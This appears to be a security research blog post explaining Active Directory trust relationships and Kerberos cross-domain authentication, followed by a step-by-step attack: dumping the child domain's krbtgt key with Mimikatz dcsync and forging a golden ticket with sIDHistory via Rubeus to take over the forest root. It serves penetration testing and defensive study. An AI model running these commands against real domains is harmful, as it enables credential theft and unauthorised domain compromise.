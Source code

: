 ```yaml
---
cover: https://i.postimg.cc/ZK6QqchB/trusts.jpg
title: "Infiltrating the Domain: Exploiting Active Directory Trusts"
date: 9/01/2024 5:22:33 +08:03
categories: research
tags: [Active Directory Trust]
toc: true
toc_number: false
---
```

# Overview
In active directory trust is a relationship between two domain or forest which allows users or groups of one domain or forest to authenticate and access resources of another domain or forest or vice versa. 

## One Way Trust
![One Way Trust](https://i.postimg.cc/Y9JV7Tgv/one-way-trust-drawio.png)
This is also known as one direction trust where users or groups in trusted domain can access resources in trusting domain but the reverse is not true. For example in a forest `alex.local` there is a child domain `development.alex.local` and there is another forest` dhital.local` which has its child domain `management.dhital.local`. If `development.alex.local` is configured to trust `management.dhital.local` then `development.alex.local` is the trusting domain wheares `management.dhital.local` is the trusted domain so users/groups in `management.dhital.local` can authenticate and access resources of `development.alex.local` but vice versa is not true.

## Two way trust(Bi-directional trust)
![](https://i.postimg.cc/XJ6t5TH9/bidirectional.jpg)
Two way trust also called as bi-directional trust is a trust relationship where users or groups of one domain or forest can access each other's resources. This type of trust is automatically created between domains inside a forest. For example in the above diagram The root domain is `alex.local` which has two child domains `development.alex.local` and `finance.alex.local`. Both development and finance can access each other resources as well as can access resource in `alex.local` itself.

**Note:** In a forest if one domain is compromised the entire forest can be compromised since domains inside a forest has bi-directional trust with each other. eg: If `management.alex.local` is compromised due to bi-directional parent child trust alex.local can be compromised.

## Transitive Trust
![](https://i.postimg.cc/2jPFDM8f/bi-directionall-drawio.png)
This kind of trust exists automatically between domains inside a forest. For example in a forest `alex.local` there are three domains development, finance and management. If `development.alex.local` has bi directional trust with `finance.alex.local` and `finance.alex.local` has bi directional trust with `management.alex.local` then development domain has bi directional trust automatically with management.

## Non transitive trust
It means if domain A trusts domain B and domain B trusts domain C then domain A does not trust domain C automatically and a separate trust needs to be established between them. This type of trust relationship automatically exists between two domains in different forest.

## Parent Child trust
This is same as bi-directional trust. It is created automatically between forest root and child domains. example: child domain `management.alex.local` and forest root which is the parent domain `alex.local` can access each other's resources.

## Tree root trust
It is automatically created between trees in a forest. For example in a forest alex.local there are three domains development, finance and management and management has child domain `in.management.alex.local`. If `in.management.alex.local` is compromised due to bi directional trust `management.alex.local` can be compromised and again due to bi-directional trust `alex.local` forest itself can be compromised.

## External trust
This needs to be created manually. This trust is manually established by enterprise administrator between domains in two different forests. For example: two forests `alex.local` and `dhital.local`. `alex.local` has two child domains `development.alex.local` and `management.alex.local`. The forest `dhital.local` has `sales.dhital.local` and `IT.dhital.local`. Here, enterprise administrators can setup one way or two way trust between `development.alex.local` and `sales.dhital.local` or with any other domain. 

## Kerberos working inside forest.
![](https://i.postimg.cc/0NPVhhW5/inter-forest-drawio.png)
Suppose a client in `management.alex.local` wants to access a service residing in parent domain `alex.local` how does he do it?
- The client asks for TGT with authentication server.(current domain's dc)
- The authentication server sends TGT to the client.(current domain's dc)
- The client presents this TGT along with spn `MSSQL\sql.alex.local` to the ticket granting server(current domain's dc) and asks for ST for MSSQL service residing in alex.io domain.
- The DC checks the spn and provides inter forest TGT(This inter forest TGT is encrypted using trust key for parent and child domains. This trust key is present in dc of both domains.)
- Client presents this inter forest TGT to DC of parent domain and asks for ST 
- The parent domain's DC decrypts this inter forest TGT using its own trust key and if successfull presents ST to the client.
- The client presents this service ticket to the service in parent domain.
- The service provides or denies access.

## Forging inter realm TGT via sIDHistory
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory. sIDHistorycan be abused in two ways of escalating privileges within a forest:
- Extracting trust key and forging inter forest TGT by creating golden ticket and setting sIDHistory as enterprise administrator.
- Extracting krbtgt hash of current domain and forging inter realm TGT by creating golden ticket and setting sIDHistory as enterprise administrator.

### Forging inter realm TGT using krbtgt hash
First we need sid of domain admins group of target domain alex.local which is enterprise administrators as well. Using PowerView
```powershell
PS C:\Users\Alex\Desktop> Get-DomainGroup -Identity "Domain Admins" -Domain alex.local -Properties ObjectSid
```
Find domain controller of target domain
```powershell
PS C:\Users\Alex\Desktop> Get-DomainController -Domain alex.local | select Name
```
Dump hash of krbtgt account of current domain by performing dcsync. Extract the aes256 hash.
```powershell
PS C:\Users\Alex\Desktop> Invoke-Mimikatz -Command '"lsadump::dcsync /user:mgmt\krbtgt"' -ComputerName mgmt-dc
```
Create golden ticket setting sIDHistory for enterprise administrator and pass the ticket into a logon session using `/ptt`
```powershell
PS C:\Users\Alex\Desktop> .\Rubeus.exe golden /aes256:31e7f323ade5689f7adfdfeee19de65ebc37c01a4790a7f38fb52e06563d5g8d /user:Administrator /domain:management.alex.local /sid:S-1-5-21-673305511-321244342-2457501623 /sids:S-1-5-21-4294361352-675613456-824644915-512 /nowrap /ptt
```
- aes256 is the hash of krbtgt account of current domain.
- sid is the sid of current domain.
- sids is the sid of parent domain.
Finally, access the dc of alex.local
```powershell
C:\Users\Alex\Desktop> ls \\dc.alex.local\ADMIN$
```
